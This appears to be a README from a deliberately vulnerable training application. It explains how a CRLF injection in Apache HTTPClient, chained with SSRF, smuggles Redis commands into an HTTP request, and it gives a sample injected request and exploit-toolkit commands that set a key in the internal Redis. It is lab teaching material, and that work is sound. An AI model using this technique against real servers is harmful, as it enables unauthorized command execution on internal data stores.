 # CRLF injection

A user can [inject CRLF sequences](https://owasp.org/www-community/vulnerabilities/CRLF_Injection) into the server-sent 
HTTP request and therefore set arbitrary HTTP headers, leading to possible 
[request smuggling](https://portswigger.net/web-security/request-smuggling) to execute arbitrary Redis commands.

## Technical Details

The used version of the Apache
HTTPClient [contains a vulnerability](https://issues.apache.org/jira/browse/HTTPCLIENT-1974)
that allows attackers that control the value of an HTTP header to inject CRLF sequences. An attacker can therefore
control parts of the request and can add arbitrary text (e.g. HTTP headers). It is possible to combine this with the
[SSRF vulnerability](../ssrf/README.md) and smuggle [RESP](https://redis.io/docs/reference/protocol-spec/) data inside the HTTP request and
therefore send commands to the internal Redis.

When abusing this, an HTTP request can look something like this:

```http request
GET /something 
X-Expected-Header: value # injecting a newline in the user controllable path here to control the line below
SET key value # any redis commands here
HTTP/1.1
Host: 127.0.0.1:6379
User-Agent: curl/7.52.1
Accept: */*
Content-Type: text/plain
...
```

## Preconditions and Requirements

For this exploit to work you need:
* [unguard](../../../docs/DEV-GUIDE.md) deployed and running
* [unguard-exploit-toolkit](../../INSTALL.md) set up

## Exploitation

Make sure to login first

```shell
$ ug-exploit login <USERNAME>
```

Next, send your payload. Make sure to specify the Redis instance that is reachable from the frontend. 
Within Docker or K8s, this should be `unguard-redis:6379`.

```shell
$ ug-exploit redis --redis-host unguard-redis:6379 ./exploits/crlf-injection/payload/hackedflag.txt
```

You can use any Redis client to verify that the exploit has worked. For convenience, you can SSH into the redis pod and
use the Redis CLI:

```shell
$ kubectl exec -i -t -n unguard unguard-redis-6668588958-tm8l9 -c redis -- bash # specify your pod name
$ redis-cli
127.0.0.1:6379> GET hacked
exploitworked
```

## Further Details

* [CRLF injection vulnerability in setting/adding HTTP headers - Apache HttpComponents](https://issues.apache.org/jira/browse/HTTPCLIENT-1974)
* [What is a CRLF injection? - OWASP](https://owasp.org/www-community/vulnerabilities/CRLF_Injection)
